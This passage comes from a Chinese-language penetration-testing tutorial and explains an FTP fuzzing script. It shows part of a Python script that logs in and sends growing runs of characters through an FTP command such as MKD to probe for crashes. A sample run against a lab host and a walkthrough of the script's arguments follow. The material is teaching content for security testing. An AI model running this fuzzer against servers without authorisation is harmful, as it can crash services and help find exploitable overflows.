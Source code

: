 ```py
        payload = command + " " + (char * i)      
        print "Sending " + str(i) + " instances of payload (" + char + ") to target"      
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)      
        connect=s.connect((target,port))      
        s.recv(1024)      
        s.send('USER ' + user + '\r\n')      
        s.recv(1024)      
        s.send('PASS ' + passwd + '\r\n')
        s.recv(1024)
        s.send(payload + '\r\n')
        s.send('QUIT\r\n')
        s.recv(1024)
        s.close()
        i = i + interval
    except:
        print "\nUnable to send...Server may have crashed"
        sys.exit()

print "\nThere is no indication that the server has crashed" 
```

脚本的第一部分定义了 Python 解释器的位置，并导入所需的库。 第二部分检查提供的参数数量，以确保其与脚本的适当用法一致。 脚本的第三部分定义将在整个脚本执行期间使用的变量。 其中几个变量从系统参数中接收到它们的值，这些参数在执行时传递给脚本。 剩余的变量通过接受脚本的用户的输入来定义。 最后，脚本的其余部分定义了模糊测试过程。 我们执行`ftp_fuzz.py`文件，如下：

```
root@KaliLinux:~# ./ftp_fuzz.py 
Usage - ./ftp_fuzz.py [Target-IP] [Port Number] [Payload] [Interval] [Maximum] 
Example - ./ftp_fuzz.py 10.0.0.5 21 A 100 1000 
Example will fuzz the defined FTP service with a series of payloads to include 100 'A's, 200 'A's, etc... up to the maximum of 1000 
root@KaliLinux:~# ./ftp_fuzz.py 172.16.36.134 21 A 100 1000 
Enter ftp username: anonymous 
Enter ftp password: user@mail.com 
Enter FTP command to fuzz: MKD

Sending 100 instances of payload (A) to target 
Sending 200 instances of payload (A) to target 
Sending 300 instances of payload (A) to target 
Sending 400 instances of payload (A) to target 
Sending 500 instances of payload (A) to target 
Sending 600 instances of payload (A) to target 
Sending 700 instances of payload (A) to target 
Sending 800 instances of payload (A) to target 
Sending 900 instances of payload (A) to target 
Sending 1000 instances of payload (A) to target

There is no indication that the server has crashed
```

如果脚本在没有适当数量的系统参数的情况下执行，脚本将返回预期的用法。有几个值必须作为系统参数来包含。要传递给脚本的第一个参数是目标 IP 地址。此 IP 地址是与运行所需模糊测试的 FTP 服务的系统相关的 IP 地址。下一个参数是运行 FTP 服务的端口号。在大多数情况下，FTP 在 TCP 端口 21 中运行。载荷定义了要批量传递到服务的字符或字符序列。 `interval`参数定义了在一次迭代中传递给 FTP 服务的载荷实例数。参数也是这样的数量，通过该数量，载荷实例的数量将随着每次连续迭代增加到最大值。此最大值由最后一个参数的值定义。在使用这些系统参数执行脚本后，它将请求 FTP 服务的身份验证凭证，并询问应该对哪个身份验证后的功能进行模糊测试。在提供的示例中，模糊测试对 IP 地址`172.16.36.134`的 Windows XP 主机的 TCP 端口 21 上运行的 FTP 服务执行。匿名登录凭据传递给了具有任意电子邮件地址的 FTP 服务。此外，一系列 As 被传递到 MKD 验证后的功能，从 100 个实例开始，并每次增加 100，直到达到最大 1000 个实例。同样的脚本也可以用来传递载荷中的一系列字符：
